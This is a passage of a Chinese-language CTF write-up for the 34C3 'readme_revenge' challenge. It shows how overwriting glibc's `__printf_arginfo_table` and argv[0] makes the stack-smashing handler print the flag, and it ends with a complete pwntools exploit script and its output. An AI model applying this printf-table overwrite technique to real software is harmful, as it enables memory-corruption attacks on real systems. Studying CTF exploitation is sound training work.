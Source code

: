 ```c
    }

  __printf_function_table[spec] = converter;
  __printf_arginfo_table[spec] = arginfo;

 out:
  __libc_lock_unlock (lock);

  return result;
}
```

然后发现 `spec` 被直接用做数组 `__printf_function_table` 和 `__printf_arginfo_table` 的下标。`s` 也就是 `0x73`，这和我们在 gdb 里看到的相符：`rdx=0x73`，`[rax+rdx*8]`正好是数组取值的方式，虽然这里的 `rax` 里保存的是 `__printf_modifier_table`。

## 漏洞利用

有了上面的分析，下面我们来构造 exp。

回顾一下 `__parse_one_specmb()` 函数里的 `if` 判断语句，我们知道 C 语言对 `||` 的处理机制是如果第一个表达式为 True，就不再进行第二个表达式的判断，所以为了执行函数 `*__printf_arginfo_table[spec->info.spec]`，需要前面的判断条件都为 False。我们可以在 `.bss` 段上伪造一个 `printf_arginfo_size_function` 结构体，在结构体偏移 `0x73*8` 的地方放上 `__stack_chk_fail()` 的地址，当该函数执行时，将打印出 `argv[0]` 指向的字符串，所以我们还需要将 `argv[0]` 覆盖为 flag 的地址。

Bingo!!!

```text
$ python2 exp.py
[+] Starting local process './readme_revenge': pid 14553
[*] Switching to interactive mode
*** stack smashing detected ***: 34C3_XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX terminated
```

### exploit

完整的 exp 如下：

```python
from pwn import *

io = process('./readme_revenge')

flag_addr = 0x6b4040
name_addr = 0x6b73e0
argv_addr = 0x6b7980
func_table = 0x6b7a28
arginfo_table = 0x6b7aa8
stack_chk_fail = 0x4359b0

payload  = p64(flag_addr)       # name
payload  = payload.ljust(0x73 * 8, "\x00")
payload += p64(stack_chk_fail)  # __printf_arginfo_table[spec->info.spec]
payload  = payload.ljust(argv_addr - name_addr, "\x00")
payload += p64(name_addr)       # argv
payload  = payload.ljust(func_table - name_addr, "\x00")
payload += p64(name_addr)       # __printf_function_table
payload  = payload.ljust(arginfo_table - name_addr, "\x00")
payload += p64(name_addr)       # __printf_arginfo_table

# with open("./payload", "wb") as f:
#     f.write(payload)

io.sendline(payload)
io.interactive()
```
